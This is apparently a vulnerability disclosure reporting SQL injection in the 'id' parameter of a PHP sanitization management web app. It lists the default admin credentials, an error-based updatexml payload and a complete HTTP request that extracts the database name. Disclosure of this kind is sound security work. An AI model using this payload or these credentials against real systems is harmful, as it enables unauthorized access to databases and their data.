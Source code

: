 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: ep0ch

Login account: admin/admin123 (SuperAdmin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmapp-php 8.1 version

Vulnerability File: /php-sms/admin/services/view_service.php

Vulnerability location: /php-sms/admin/?page=services/view_service&id=

Vulnerability Parameter: id

dbname =sms_db,length=6

[+] Payload: /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ 


exp:
```
GET /php-sms/admin/?page=services/view_service&id=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![sqli](https://user-images.githubusercontent.com/66857673/198284625-06ffe752-562a-4772-8f89-ac7e99cb2d75.png)
